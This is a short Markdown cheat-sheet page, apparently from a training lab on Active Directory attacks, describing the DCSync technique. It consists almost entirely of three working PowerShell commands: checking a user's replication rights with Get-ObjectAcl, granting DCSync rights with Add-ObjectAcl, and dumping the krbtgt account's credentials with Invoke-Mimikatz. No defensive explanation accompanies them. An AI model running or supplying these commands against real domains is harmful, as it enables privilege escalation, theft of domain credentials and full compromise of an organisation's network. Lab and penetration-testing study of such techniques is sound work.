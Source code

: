 ```yaml
---
layout: page
title: "# Invoke DCSync"
permalink: /ad_cheatsheets/invoke_dcsync
---
```


# Invoke DCSync

## Check if user has replication rights

```powershell
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ? {($_.IdentityReference -match "student648") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

## Adding rights

```powershell
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName student648 -Rights DCSync -Verbose
```

## Dumping Creds

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
